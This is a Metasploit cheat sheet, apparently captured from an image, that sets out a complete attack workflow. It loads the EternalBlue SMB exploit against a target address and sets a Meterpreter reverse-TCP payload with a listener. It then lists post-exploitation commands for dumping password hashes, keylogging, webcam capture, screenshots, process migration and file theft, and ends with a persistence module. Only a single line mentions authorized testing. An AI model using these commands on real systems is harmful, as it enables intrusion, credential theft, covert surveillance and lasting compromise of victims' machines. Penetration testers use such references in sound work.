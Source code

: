### msfconsole — Core Workflow

**Start:** `msfconsole`

**Search exploits/payloads:** `search type:exploit name:smb`

**Load exploit:** `use exploit/windows/smb/ms17_010_eternalblue`

**View options:** `show options`

**Set options:** 
```bash
set RHOSTS 10.0.0.5
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

**Launch:** `exploit` (or `exploit -j` to run as background job)

**Handle sessions:** `sessions` → `sessions -i <id>` to interact

**Background a session inside Meterpreter:** `background` (drops to msfconsole while session remains)

### Multi/handler (listener)
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.0.0.100
set LPORT 4444
exploit -j
```

### Meterpreter Quick Commands (post-exploitation)
- `sysinfo` — system details
- `getuid` — current user
- `ps` — processes
- `migrate <pid>` — move to another process
- `hashdump` — dump password hashes (requires privileges)
- `download <remote> <local>` / `upload`
- `screenshot` / `webcam_snap` (if enabled)
- `keyscan_start` / `keyscan_dump` / `keyscan_stop`

> **Note:** Many meterpreter actions require elevated privileges and are intrusive — use in authorized tests only.

### Persistence (example approach)
Use post modules to establish persistence:
```bash
use post/windows/manage/persistence
set SESSION <id>
set LHOST 10.0.0.100
run
```
